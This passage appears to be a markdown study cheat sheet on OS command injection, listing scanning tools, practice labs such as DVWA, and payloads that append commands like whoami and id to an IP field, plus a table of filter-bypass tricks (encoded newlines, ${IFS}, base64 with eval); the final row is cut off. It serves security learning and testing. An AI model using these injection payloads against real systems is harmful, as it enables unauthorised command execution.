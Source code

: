 - Try injecting: `; ls`, `&& whoami`, `| netstat -an`
    

### Automated Tools:

- **OWASP ZAP**
    
- **Burp Suite**
    
- **Nikto**
    
- **Nmap NSE scripts**
    
- **Commix** (specifically for command injection)
    

---

## 🧰 Real-World Examples

### 1. **Metasploitable 2 – Mutillidae / DVWA**

- DVWA has an "OS Command Injection" module for practice.
    

### 2. **Equifax Breach (2017)**

- Related to Apache Struts, used OGNL injection that led to command execution.
    

---

## 🔁 Common Payload Examples
## 🧱 Basic Payloads

These work when there's no input sanitization:

127.0.0.1; whoami
127.0.0.1 && id
127.0.0.1 || ls -la
127.0.0.1 | uname -a
127.0.0.1 `id`
127.0.0.1 $(id)

---

## 🧬 Obfuscation & Bypass Techniques

These payloads can bypass basic filters:

| Method                             | Payload                              | Description                    |
| ---------------------------------- | ------------------------------------ | ------------------------------ |
| **Whitespace bypass**              | `127.0.0.1%0awhoami`                 | Uses newline encoding (`%0a`)  |
| **URL encoding**                   | `127.0.0.1%26%26id`                  | `&&` encoded as `%26%26`       |
| **Null byte**                      | `127.0.0.1%00`                       | Bypass string-based filters    |
| **Command substitution**           | `$(id)` or `` `id` ``                | Avoids direct use of `;`, `&&` |
| **Character injection**            | `ping$(echo${IFS}hello)`             | `${IFS}` as space              |
| **Unicode space**                  | `ping᠎-c᠎4᠎127.0.0.1`                | Zero-width space as separator  |
| **IFS (Internal Field Separator)** | `ping${IFS}-c${IFS}3${IFS}127.0.0.1` | Replace space                  |
| **Base64 + eval**                  | `echo aWQ=                           | base64 -d                      |

---